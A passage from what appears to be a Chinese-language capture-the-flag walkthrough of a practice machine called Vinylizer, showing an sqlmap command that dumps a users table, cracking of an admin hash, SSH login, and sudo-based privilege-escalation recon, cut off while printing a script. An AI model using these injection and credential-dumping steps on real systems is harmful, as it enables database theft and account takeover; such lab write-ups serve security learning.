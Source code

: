 ```bash
sqlmap -l sql.txt --batch -D vinyl_marketplace -T users --dump
```

```apl
Table: users
[2 entries]
+----+----------------------------------+-----------+----------------+
| id | password                         | username  | login_attempts |
+----+----------------------------------+-----------+----------------+
| 1  | 9432522ed1a8fca612b11c3980a031f6 | shopadmin | 0              |
| 2  | password123                      | lana      | 0              |
+----+----------------------------------+-----------+----------------+
```

解密一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403271837215.png" alt="image-20240327180712065" style="zoom:50%;" />

拿到密码：

```apl
shopadmin 		addicted2vinyl
```

尝试登录，但是显示`Invalid password`。

尝试ssh登录！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403271837216.png" alt="image-20240327181040204" style="zoom: 33%;" />

成功！

## 提权

### 信息搜集

```python
shopadmin@vinylizer:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:6d:ec:17 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.12/24 metric 100 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 305sec preferred_lft 305sec
    inet6 fe80::a00:27ff:fe6d:ec17/64 scope link 
       valid_lft forever preferred_lft forever
shopadmin@vinylizer:~$ sudo -l
Matching Defaults entries for shopadmin on vinylizer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User shopadmin may run the following commands on vinylizer:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/vinylizer.py
shopadmin@vinylizer:~$ cat /opt/vinylizer.py
# @Name: Vinylizer
# @Author: MrMidnight
# @Version: 1.8

import json
import random
```